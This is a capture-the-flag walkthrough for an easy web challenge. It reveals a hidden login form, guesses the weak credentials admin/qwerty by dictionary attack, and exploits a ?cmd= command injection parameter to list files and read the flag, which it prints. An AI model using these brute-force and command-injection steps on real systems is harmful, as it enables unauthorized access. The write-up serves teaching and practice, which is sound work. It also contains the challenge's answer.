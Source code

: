 ## 🔍 Challenge: **THE RED PORTAL**

**Author:** Rabia
**Difficulty:** Easy
**Flag:** `ACM{cmd_injection}`
**Description:**

> *The surface smiles, but the shadows speak. Will you listen?*

---

### 🧠 Challenge Overview:

In *"The Red Portal"*, you're presented with a minimal or empty page, but something is lurking just out of sight. The challenge involves uncovering a hidden login form, bypassing it using a dictionary attack, and exploiting a command injection vulnerability to retrieve the flag.

---

### 🛠️ Step-by-Step Walkthrough:

#### 🔎 Step 1: View Source – Uncover the Hidden Login

On first load, the webpage looks very simple. But viewing the source (`Ctrl+U`) reveals an important clue:


```html
<div id="login" class="login-container" style="display: none;"></div>
```

The `login` container is present in the DOM but hidden with `style="display: none;"`.


➡️ Using browser dev tools (`F12`), remove or modify the inline style to reveal the hidden login form. (e.g., change `display: none;` to `display: block;`).

---

#### 🔐 Step 2: Brute-Force the Login Page

The login form has two fields: `username` and `password`. With no rate-limiting, it’s vulnerable to a dictionary attack.

Using a simple wordlist or trial and error:

* **Username:** `admin`
* **Password:** `qwerty`

Logs you in successfully and redirects to a new page — typically a **blog** or **portal page**.

---

#### 💥 Step 3: Exploit Command Injection

Once logged in, observe the URL:

```
portal.com/blog
```

Trying a basic command injection like:

```
?cmd=ls
```

Returns a list of files:

```
index.html
portal.txt
notes.txt
```

This is a sign of **command injection** — the value of `cmd` is being passed to a system shell.

To retrieve the flag:

```
?cmd=cat portal.txt
```

You’ll see:

```
ACM{cmd_injection}
```

✅ Success!

---

### 🏁 Final Flag:

```
ACM{cmd_injection}
```
